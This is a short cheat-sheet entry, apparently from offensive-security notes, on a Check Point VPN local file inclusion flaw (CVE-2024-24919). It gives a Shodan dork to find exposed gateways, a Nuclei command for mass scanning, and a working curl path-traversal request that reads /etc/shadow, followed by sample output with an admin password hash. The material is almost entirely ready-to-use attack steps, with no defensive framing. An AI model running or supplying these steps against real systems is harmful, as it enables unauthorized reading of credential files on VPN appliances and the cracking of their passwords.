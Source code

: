 ### CheckPoint VPN Local File Inclusion

#### Tag
```checkpoint```

#### Dorks
```
Shodan - "Server: Check Point SVN"
```

#### Nuclei Scanning
```
# Download template for cve-2024-24919.yaml
# https://github.com/johnk3r/nuclei-templates/blob/main/http/cves/2024/CVE-2024-24919.yaml

nuclei -l targets.txt -t cve-2024-24919.yaml -o vulnerable_targets.txt
```

#### Exploit POC
```
curl -k https://<ip>/clients/MyCRL -X POST -d "aCSHELL/../../../../../../../etc/shadow"

admin:$1$NcfSDmmF$HtHiCsNgHakAG4HG.LYz11:18439:0:99999:8:::
monitor:*:19866:0:99999:8:::
root:*:19866:0:99999:7:::
nobody:*:19866:0:99999:7:::
postfix:*:19866:0:99999:7:::
rpm:!!:19866:0:99999:7:::
shutdown:*:19866:0:99999:7:::
pcap:!!:19866:0:99999:7:::
halt:*:19866:0:99999:7:::
cp_postgres:*:19866:0:99999:7:::
vcsa:!!:19866:0:99999:7:::
_nonlocl:*:19866:0:99999:7:::
```
